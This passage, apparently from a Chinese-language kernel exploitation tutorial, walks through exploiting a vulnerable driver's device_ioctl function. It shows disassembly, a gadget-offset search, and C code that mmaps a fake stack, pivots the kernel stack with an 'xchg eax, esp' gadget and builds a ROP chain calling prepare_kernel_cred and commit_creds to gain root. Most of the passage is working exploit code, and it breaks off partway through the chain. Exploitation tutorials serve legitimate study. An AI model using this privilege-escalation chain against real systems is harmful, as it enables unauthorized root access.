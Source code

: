 由于不能直接将内核态控制流劫持到用户态执行，我们需要在内核空间中寻找合适的 gadget。利用思路是在用户态准备好
rop 链，然后栈迁移到用户态，这样就没有直接执行用户态指令。

逆向分析一下 `device_ioctl` 函数会发现我们可以控制 `%rax` 寄存器：

```asm
...
   0xffffffffa0000124 <+103>:	mov    rdx,0xffffffffa0002340
   0xffffffffa000012b <+110>:	mov    rax,QWORD PTR [rbp-0x10]
   0xffffffffa000012f <+114>:	mov    rax,QWORD PTR [rax]
   0xffffffffa0000132 <+117>:	shl    rax,0x3
   0xffffffffa0000136 <+121>:	add    rax,rdx
   0xffffffffa0000139 <+124>:	mov    QWORD PTR [rbp-0x8],rax
   0xffffffffa000013d <+128>:	mov    rax,QWORD PTR [rbp-0x8]
   0xffffffffa0000141 <+132>:	call   rax

...
```

那么就可以根据 `ops` 变量的地址计算 gadgets 的偏移，找到赋值给栈指针寄存器的 gadgets 如 `xchg %eax, %esp; ret`
，目标地址是以数组索引偏移的，因此计算偏移的时候需要乘以数组单位字节长度即乘以 `8`，只能寻找地址偏移为 `8` 的
倍数的 gadgets，可以使用 `find_offset.py` 脚本来方便查找。

```bash
$ python find_offset.py 0xffffffffa0002340 gadgets_xchg.txt 
offset = 0xfffffffffc20d91bL
gadget = xchg eax, esp ; ret 0x12
stack addr = 0x8106ec18

```

根据找到的指令 mmap 出足够的空间，用来存放 rop 链：

```c
req.offset = strtoul(argv[1], NULL, 0x10);
base_addr = strtoul(argv[2], NULL, 0x10);
stack_addr = (base_addr + (req.offset * 8)) & 0xffffffff;
fprintf(stdout, "stack address = 0x%lx\n", stack_addr);

mmap_addr = stack_addr & 0xfffff000;
assert((mapped = mmap((void*) mmap_addr, 0x20000, 7, 0x32, 0, 0)) == (void*) mmap_addr);
```

这里注意一下我们找到的 gadgets 包含 `ret 0x12` 指令，会在返回之后弹出 `0x12` 字节大小的栈空间，即当前栈指针的
值要加上 `0x12`，那么我们的后续的 rop 链地址需要更改一下：

```c
fake_stack = (unsigned long *) stack_addr;
*fake_stack++ = 0xffffffff8138353fUL;	/* pop rdi; ret */

fake_stack = (unsigned long *) (stack_addr+0x8+0x12);
```

之后构造调用分配凭证结构函数的 rop 链，参考之前的 rop 链布局：

```c
fake_stack = (unsigned long *) stack_addr;
*fake_stack++ = 0xffffffff8138353fUL;	/* pop rdi; ret */

fake_stack = (unsigned long *) (stack_addr+0x8+0x12);
*fake_stack++ = 0x0UL;                  /* NULL */
*fake_stack++ = 0xffffffff8108fce0UL;   /* prepare_kernel_cred() */
*fake_stack++ = 0xffffffff81057cb2UL;   /* pop rdx; ret */
*fake_stack++ = 0xffffffff8108fa66UL;   /* commit_creds() + 2 instructions */
*fake_stack++ = 0xffffffff81035c11UL;   /* mov rdi, rax; call rdx */
```
